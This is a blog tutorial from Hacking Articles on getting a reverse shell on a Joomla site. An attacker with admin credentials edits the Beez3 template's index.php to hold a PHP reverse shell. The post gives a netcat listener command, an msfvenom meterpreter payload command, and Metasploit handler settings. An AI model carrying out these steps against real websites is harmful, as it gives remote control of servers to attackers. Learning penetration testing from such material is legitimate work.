 ```yaml
---
title: 'Joomla: Reverse Shell'
date: 2019-10-29T18:22:00+01:00
draft: false
---
```


Joomla is one of the popular Content Management System (CMS) which helps you to build your website. Joomla has gained its popularity by being user-friendly as its complication-free when during installation; and it is also pretty reliable. In this article, we learn how to get a reverse shell of Joomla.

As you can see in the image below, the website is made in Joomla. Now, that we have our Joomla environment we start exploiting it. 

![](https://i1.wp.com/1.bp.blogspot.com/-kFYnSXVFvW4/XbhytR0HSQI/AAAAAAAAhHM/ZFun5TCVmS4dzxFg-ozNawhkDhCXTbT5ACLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

The attack that we are going to show is categorised under post-exploitation; which means one should have login credentials of Joomla. The URL of the login page of Joomla will be consisted of ‘joomla/administrator’ and here, enter username and password as shown in the image below :

![](https://i2.wp.com/1.bp.blogspot.com/-6umI-JWZE9M/Xbhys7tf32I/AAAAAAAAhHI/uSPRNBEnG2krL4iqU9hU40NFQ4C_IeaTwCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

Once you are logged in, go to extensions. A drop-down menu will appear, from this menu select templates; just like it has been shown in the image below :

![](https://i1.wp.com/1.bp.blogspot.com/-ivTpSjYQ_ts/XbhyuF5215I/AAAAAAAAhHQ/nluZvOXQFC4S3nF1F99ciTA9t46ksRoggCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

Implementing the above will show you the list of templates present in the website and so we will exploit one of them i.e. Beez3 details and files.  

![](https://i1.wp.com/1.bp.blogspot.com/-EiyVCaIk9TA/XbhyueifHFI/AAAAAAAAhHU/dTiGQ73dYlwdy4E5jVUXRFi3BVFYtNUwgCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

Once, you are in the template, go to index.php as shown in the image below :

![](https://i0.wp.com/1.bp.blogspot.com/-8t_C9g7WwIE/XbhyuViZrTI/AAAAAAAAhHY/3v6UyRDMRN0gadbnFc9rTADqX8feLt2oACLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

This way you will able to edit index.php in the template as you can see in the image below :

![](https://i1.wp.com/1.bp.blogspot.com/-5or2amsT7Mg/XbhyvK4qO1I/AAAAAAAAhHc/EesrAnhDa9UJW89rNfqZ_fK78vMUEt84ACLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

Now, swap the code of index.php with the reverse shellcode i.e. found in Kali Linux and add your IP and port in the code just like it has been shown in the image below :

![](https://i2.wp.com/1.bp.blogspot.com/-jIjLpkMU3oE/Xbhyva9IR2I/AAAAAAAAhHg/eibg_vUUqkk8BJomiURNysps9wZEv6tPACLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

Now, activate netcat to get a session with the following command :

```
nc -lvp 1234
```

![](https://i0.wp.com/1.bp.blogspot.com/-cooH80pCEz8/XbhyvhJMHmI/AAAAAAAAhHk/S1t3dFtcWEweh6TS2W-RumxpNe63B-94wCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

Another way to get a reverse shell is by msfvenom, and for this type the following command :

```
msfvenom -p php/meterpreter/reverse\_tcp lhost =192.168.0.9 lport=1234 R
```

![](https://i2.wp.com/1.bp.blogspot.com/-wKmFKhjxmQ4/XbhywOcLLvI/AAAAAAAAhHo/BAiKdbBUhMsajvDKV9_FR5WfIp85UKRAgCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

The above command will give you the malicious php code. Swap this code just like before  and simultaneously start the multi/handler as shown in the image below :

```
use exploit/multi/handler  
set payload php/meterpreter/reverse\_tcp  
set lhost 192.168.0.9  
set lport 1234  
exploit
```

![](https://i2.wp.com/1.bp.blogspot.com/-OvSq7FWQ9VM/Xbhys2uBpRI/AAAAAAAAhHE/yvE-s5rD4cMC32FT5jmr6WzP7MeztVnGgCLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

These were the two ways to get a reverse shell in Joomla.

**Author**: **Yashika Dhir** is a passionate Researcher and Technical Writer at Hacking Articles. She is a hacking enthusiast. contact **[here](https://www.linkedin.com/in/yashika-dhir-b94722a3?trk=pulse-det-athr_prof-art_hdr)**

The post [Joomla: Reverse Shell](https://www.hackingarticles.in/joomla-reverse-shell/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/2MX3IKI